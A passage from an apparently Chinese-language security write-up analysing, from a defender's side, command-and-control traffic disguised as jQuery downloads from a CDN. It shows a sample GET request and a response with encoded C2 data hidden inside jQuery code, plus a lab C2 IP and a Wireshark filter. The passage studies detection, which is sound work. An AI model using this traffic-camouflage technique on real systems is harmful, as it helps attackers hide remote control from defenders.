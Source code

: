 实际上，只看到以下信息。

Domains and IP Addresses  
The following domains and IP addresses were attributed to this actor.  
10.211.55.5

可见流量上的 IoC 很单一，只有 C2 的 ip 地址 10.211.55.5

> 至于 HTTP 流量 (见附件) 和 提取的关键字（"jQuery"），我认为无法定义恶意流量特征。

个人认为从流量上难以检测。

#### 文件 IoC

生成的文件 17yes.exe 当然具有其对应 hash，但如果是针对某企业进行的攻击，该程序从未被捕获、分析，则该 hash 在渗透前到渗透中、渗透结束，可能未被分析发现它是恶意文件。

个人认为短时间内难以立即检测。

### 实测 - 流量分析

从防御者角度分析一下。  
在 victim 中使用 Wireshark 全程抓包（从打开文件前到常规远控操作），发现 C2 流量均为模拟 jQuery 的 http 协议的流量，极具隐蔽性。

使用过滤语法  
`ip.addr == 10.211.55.5 and http`  
可以看到 C2 流量是 web 流量（使用 HTTP 协议），分为 get 和 post（可以从 C2 配置文件看到定义）

[![](https://xzfile.aliyuncs.com/media/upload/picture/20190222180208-ea58f0f4-3688-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20190222180208-ea58f0f4-3688-1.png)

具体看下。（可见附件 2 个文件 get.txt post.txt）

#### get 流量

get 请求：  
(请求中没有任何恶意流量特征)

```
GET /jquery-3.3.1.slim.min.js HTTP/1.1
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Host: cdn.bootcss.com
Referer: http://cdn.bootcss.com/
Accept-Encoding: gzip, deflate
User-Agent: Mozilla/5.0 (Windows NT 6.3; Trident/7.0; rv:11.0) like Gecko
Connection: Keep-Alive
Cache-Control: no-cache
```

对应响应为：

```
HTTP/1.1 200 OK 
Content-Type: application/javascript; charset=utf-8
Date: Fri, 22 Feb 2019 07:44:21 GMT
Content-Length: 216490
Server: NetDNA-cache/2.2
Cache-Control: max-age=0, no-cache
Pragma: no-cache
Connection: keep-alive

/*! jQuery v3.3.1 | (c) JS Foundation and other contributors | jquery.org/license */!function(e,t)
（编码了的C2控制信息）
return e.$===w&&(e.$=Kt),t&&e.jQuery===w&&(e.jQuery=Jt),w},t||(e.jQuery=e.$=w),w});
```
